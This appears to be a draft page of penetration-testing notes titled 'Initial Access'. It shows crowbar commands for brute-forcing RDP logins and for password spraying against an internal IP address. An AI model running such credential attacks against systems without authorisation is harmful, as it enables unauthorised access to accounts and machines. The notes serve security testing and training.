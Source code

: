 ```yaml
---
title: "Initial Access"
date: 2020-07-17T20:56:11+02:00
draft: true
---
```


####  RDP brute forcing
RDP brute forcing can be done using hydra or ncrack, but experience with crowbar has been best.
Basic usage:
```
$ ./crowbar.py -b rdp -u DOMAIN\\user -C passwords.txt -s 10.68.35.150/32
```
Local users can also be attacked (when no domain is specified). It's also possible to perform a password spraying attack on your target:
```
$ ./crowbar.py -b rdp -U users.txt -c 'summer2020!' -s 10.68.35.150/32
```